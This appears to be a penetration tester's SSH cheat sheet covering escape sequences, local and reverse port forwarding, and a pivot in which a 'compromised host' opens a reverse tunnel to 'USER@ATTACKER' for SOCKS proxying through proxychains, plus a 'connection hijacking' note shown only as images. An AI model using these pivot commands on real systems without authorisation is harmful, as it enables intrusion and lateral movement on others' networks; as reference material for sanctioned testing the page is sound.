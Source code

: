 # ssh

## SSH Konami Code

Supported escape sequences:&#x20;

```
~. - terminate connection (and any multiplexed sessions) 
~B - send a BREAK to the remote system 
~C - open a command line 
~R - request rekey 
~V/v - decrease/increase verbosity (LogLevel) 
~^Z - suspend ssh 
~# - list forwarded connections 
~& - background ssh (when waiting for connections to terminate) 
~? - this message ~~ - send the escape character by typing it twice
```

### On a remote box (ssh connection) :

**ENTER \~C**

![](../../.gitbook/assets/230b189cbed848048744b0fb9a3623c4.png)

### Port forwarding

![](../../.gitbook/assets/7d069a1dd1704293b4bcb944064dc6d8.png)

Bind a connection on our remote attacking machine&#x20;

![](../../.gitbook/assets/5e4a2a62c298413aa94553f21604c744.png)

{% embed url="https://pen-testing.sans.org/blog/2015/11/10/protected-using-the-ssh-konami-code-ssh-control-sequences" %}

## SSH tunneling

### Local Forwarding

Forward Port 22 from 192.168.99.17 to our local machine port 9005\


![](<../../.gitbook/assets/image (59).png>)



```csharp
ssh -l user -p port -N(dont execute remote cmd) -L:8000:127.0.0.1:64297 10.4.4.63(remote_ip)
```

### SSH reverse tunnel (ie for irc)

```csharp
ssh -L localhost_PORT:irc.freenode.net:6667 user@owned_server
ssh -L 9001:127.0.0.1:8082 polo@server
```

then

```csharp
irssi -c localhost -p localhost_PORT
```

### On compromised host&#x20;

```csharp
ssh -f -N -R 2222:127.0.0.1 USER@ATTACKER
```

### Then, on attacker&#x20;

```csharp
ssh -f -N -D 127.0.0.1:1028 -p 2222 owned_user@127.0.0.1
```

### Then configure proxychains.conf

```
root@kali:~/Documents/# proxychains ssh 10.1.1.1
ProxyChains-3.1 (http://proxychains.sf.net)
```

## No Password

```csharp
ssh -o PasswordAuthentication=no -i arti_rsa user@host
```

## Cipher

### Force a specific cipher

```csharp
ssh -c aes128-ctr username@hostname
```

## Connection hijacking (old system)

```
1. password
2. priv/pub key
3. Certificat Authority key
```

```
1. password
2. priv/pub key
3. Certificat Authority key
```

`ssh-keygen -lf keys` → check sha256 sum and compare keys

`ssh-keygen -Lf keys` → check certificat (MUST BE a key signed with a CA)

Hijack connection (doesn't work on new linux host)

![](../../.gitbook/assets/677737799eb34ad687d6c6c2b76588a1.png)
